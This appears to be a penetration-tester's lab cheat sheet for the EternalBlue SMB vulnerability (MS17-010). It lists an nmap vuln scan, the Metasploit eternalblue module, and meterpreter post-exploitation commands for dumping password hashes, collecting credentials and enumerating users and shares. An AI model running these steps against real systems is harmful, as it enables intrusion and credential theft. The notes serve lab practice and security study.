 # smb-vuln-ms17-010 | CVE-2017-0143 | EternalBlue

## Metasploit

1. Check if target is vulnerable
   
        nmap --script vuln -p 137,139,445 10.10.10.4

2. Use Metasploit module `exploit/windows/smb/ms17_010_eternalblue` to obtain **meterpreter** shell access

        getuid
        ipconfig
        
        run post/windows/gather/hashdump
        run post/windows/gather/credentials/credential_collector 

        run post/windows/gather/enum_applications
        run post/windows/gather/enum_logged_on_users
        run post/windows/gather/enum_shares
        run post/windows/gather/enum_snmp

        use post/multi/recon/local_exploit_suggester

## References

* https://www.lmgsecurity.com/manually-exploiting-ms17-010/
* https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/